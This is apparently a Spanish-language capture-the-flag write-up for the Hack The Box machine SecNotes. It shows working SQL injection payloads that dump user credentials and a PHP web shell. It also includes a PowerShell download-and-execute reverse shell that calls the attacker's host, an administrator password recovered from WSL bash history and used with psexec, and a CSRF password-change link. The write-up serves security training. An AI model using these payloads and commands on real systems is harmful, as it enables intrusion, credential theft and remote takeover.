

# Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [SecNotes](https://www.hackthebox.com/home/machines/profile/151) |
| OS | Windows |
| Dificultad oficial | Medium |
| Dificultad de comunidad |  |
| Puntos | 30 |
| Creadores | [0xdf](https://www.hackthebox.com/home/users/profile/4935) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-20 12:56 EDT
Initiating Connect Scan at 12:56
Scanning 10.10.10.97 [65535 ports]
Discovered open port 80/tcp on 10.10.10.97
Discovered open port 445/tcp on 10.10.10.97
Connect Scan Timing: About 27.21% done; ETC: 12:58 (0:01:23 remaining)
Discovered open port 8808/tcp on 10.10.10.97
Completed Connect Scan at 12:57, 71.58s elapsed (65535 total ports)
Nmap scan report for 10.10.10.97
Host is up, received user-set (0.067s latency).
Scanned at 2022-06-20 12:56:42 EDT for 71s
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack
445/tcp  open  microsoft-ds  syn-ack
8808/tcp open  ssports-bcast syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 71.61 seconds
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 80,445,8808 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-20 13:01 EDT
Nmap scan report for 10.10.10.97
Host is up (0.068s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h20m00s, deviation: 4h02m30s, median: 0s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-06-20T17:01:33
|_  start_date: N/A
| smb-os-discovery:
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2022-06-20T10:01:31-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.84 seconds
```

# Enumeración

## Servicios

### http - 80

#### Manual

Se presenta un sistema de autenticación permitiendo el registro y el acceso a una aplicación para crear y guardar notas personales por usuario. Exponiendo diveras rutas, obtenidas al iteractuar manualmente con el sitio, para dar paso a posibles caminos de explotación.



Por ejemplo, se visualizó que el sitio está haciendo uso de PHP lo que pudiera significar que para interactuar (acciones CRUD de notas) por atrás se hace uso de alguna base de datos y esto se reduciría a una posible inyección SQL.

Otra ruta expuesta, la cuál expone un posible usuario de sistema (`tyler`) y el dominio (`secnotes.htb`) es `/contact.php`. Bajo la suposición que `tyler` también es un usuario de la plataforma se podría craftear un payload XSS que permitiera capturar su cookie de sesión.


#### ffuf

Después de enumerar automáticamente las rutas y subdominios, no se identificó nada relevante para las futuras fases.


### http - 8808

Se presenta únicamente el inicio por default de un servidor IIS, sin la obtención de directorios existentes mediante el fuzzeo.


# Explotación

## XSS

Después de identificar la vulnerabilidad creando una nota para probar el payload y siendo que se tiene la ruta de `contact.php` se podría haber explotado si existiera interacción mediante lo enviado y lo recibido al usuario `tyler@secnotes.htb`. A pesar de funcionar, no fue el caso.


Prueba de ejecución


## SQL Injection

Después de probar diferentes métodos tanto de manera manual como haciendo uso de `sqlmap`, principalmente en la creación de notas, no se identificó en esta sección, por lo que después de identificar que el usuario también es mostrado en la visualización de las notas, se probó inyectar en este campo el payload.

Haciendo uso de las [3 referencias marcadas](#referencias) relacionadas con la inyección SQL, se procedió a ejecutar parte de la metodología para encontrar un modo de obtener una shell. Por lo que como paso inicial se reconoció que se efectuaba la inyección dado que al registrar un usuario `'` se obtenia un error a la hora de hacer el logueo.


Error al loguear con credenciales.


A lo que posteriormente se buscó identificar el número de columnas presentes en la tabla usada, registrado un usuario iteratibamente de 1 a N hasta que se desplegara un error (quinta iteración) encontrando así el número 4 mediante `' ORDER BY 4-- -`.


Dándole seguimiento al proceso se ejecutó `' UNION SELECT 1,2,3,4-- -` para identificar aquellas columnas que fueran cadenas para poder desplegar información allí, identificando así la 2,3 y 4.


De acuerdo a las referencias encontradas se asumió que el nombre de la tabla que contenía las credenciales del sitio era común (`users`), por lo que no sé necesitó encontrar el nombre de las tablas y bases de datos, además de que se presentó una limitación referente a la longitud en el campo de usuario, por consiguiente las consultas a inyectar quedaban un tanto restringidas pero mediante `' UNION SELECT 1,username,3,4 FROM users-- -` y `' UNION SELECT 1,password,3,4 FROM users-- -` se pudieron identificar los usuarios y sus contraseñas, siendo relevante sólo usuario `tyler`.


Hashes de usuarios


Dado que al buscar realizar el crackeo del hash obtenido tomó tiempo significativo a la hora de su ejecución, se decidió buscar y emplear otro payload que de alguna forma realizara un bypass al logueo de este usuario, empleando `' OR 1=1-- -` para forzar un resultado booleano dado que se obtienen las notas del usuario en turno, logrando así el despliegue de las notas de todos los usuarios, exponiendo lo que por sintaxis se asume que son credenciales del servicio de `smb`.

```text
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```


Con las credenciales obtenidas se probó el acceso haciendo de uso de:

```bash
crackmapexec smb 10.10.10.97 -u tyler -p '92g!mA8BGjOirkL%OG*&' --shares
```

Visualizando así los folders compartidos y pudiendo tener acceso de lectura y escritura a `new-site`.


Al entrar al folder compartido con:

```bash
smbclient \\\\10.10.10.97\\new-site -U 'tyler'
```

Se visualizaron los archivos predeterminados en el servidor IIS por que se puede relacionar con el puerto `8808`.


## RCE

Al probar directamente la carga de un archivo que pudiera brindar ejecución remota de instrucciones en el servicio de smb, se identificó que en el escenario planteado no fueron funcionales las shells bajo las extensiones asp y aspx, dado que previamente se identificó el uso de PHP, se probó una shell de este tipo.


Obteniendo así ejecución de comandos.


Para entablar una reverse shell, inicialmente se buscó cargar el binario de netcat en la máquina, método que no funcionó en esta ocasión, razón por la que se busco invocar la revershell de powershell ofrecida por [nishang](https://github.com/samratashok/nishang). Disponible tanto en el repositorio como en el manejador de paquetes de kali (`sudo apt install nishang`).

Después de generar una copia y modificar el archivo `/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1`, añadiendo hasta el final la llamada a la función: 

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
```

Exponiéndola mediante un servicio web, se entabló una reverse shell satisfactoriamente mediante la invocación de la request:

```url
http://10.10.10.97:8808/shell.php?cmd=powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')
```


# Post Explotación

## Enumeración

Después de navegar a través del sistema de archivos se identificó en la ruta `C:\` un archivo zip con el nombre de `Ubuntu.zip` además de encontrarse con la ruta `C:\Distros\Ubuntu` dándo oportunidad para suponer que se trataba de la tecnología empleada en sistemas windows, WSL (Windows Subsystem for Linux).


Al ejecutar winPEAS se corroboró su existencia y se pudo identificar que el usuario por defecto en el sub-sistema es `root` mediante la invocación de comandos como:

```powershell
wsl.exe whoami
wsl.exe ls -la /
```


Ejecución de comandos mediante `wsl.exe`.


## Escalación de privilegios

### tyler &rarr; nt authority\system

Después de navegar en los directorios del sub-sistema se encontró la disponibilidad del archivo `.bash_history` del usuario `root`, exponiendo de esta manera la contraseña del usuario `administrator` de windows.


Dado que `smbclient` utiliza como separador el caracter `%` a diferencia de otras herramientas, se idenficó la contraseña como `u6!4ZwgwOM#^OBf#Nwnh` por lo que a partir de ahí se entabló una reverse shell como administrador haciendo uso de:

```bash
impacket-psexec 'administrator:u6!4ZwgwOM#^OBf#Nwnh@10.10.10.97'
```


## Notas adicionales

Como es costumbre suelo comparar mi resolución de la máquina tanto como con la oficial, como con la de otros (principalmente [IppSec](https://www.youtube.com/c/ippsec) y [0xdf](https://0xdf.gitlab.io/)), para aprender otras técnicas, procesos y mejorar continuamente, encontrando así otro método de explotación disponible en la aplicación web siendo ésta la forma intencionada de explotación.

### Cross-Site Request Forgery (CSRF)

En la plataforma es identificada la vulnerabilidad debido a que en la sección de cambio de contraseña, no se pide al usuario validar la contraseña actual, pidiendo solamente la nueva contraseña y la confirmación de esta.


Lo que permite capturar la petición para visualizar como está construida y enviar una petición modificada al usuario de contacto para poder cambiar la contraseña de este.


Enviando por medio de la sección de contacto el mensaje:

```text
http://10.10.10.97/change_pass.php?password=srrequiem&confirm_password=srrequiem&submit=submit
```

Esperando que sea abierto y posteriormente corroborando su ejecución al intentar loguearse como el usuario `tyler:srrequiem`, se obtiene acceso a las notas de `tyler`.


# Referencias

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
- [PortSwigger - SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks).
- [HackTricks - SQL injection](https://book.hacktricks.xyz/pentesting-web/sql-injection).
- [Github - Nishang](https://github.com/samratashok/nishang).
- [HackTricks - Windows Subsystem for Linux (wsl)](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#windows-subsystem-for-linux-wsl).
- [Github - Impacket Suite](https://github.com/SecureAuthCorp/impacket).
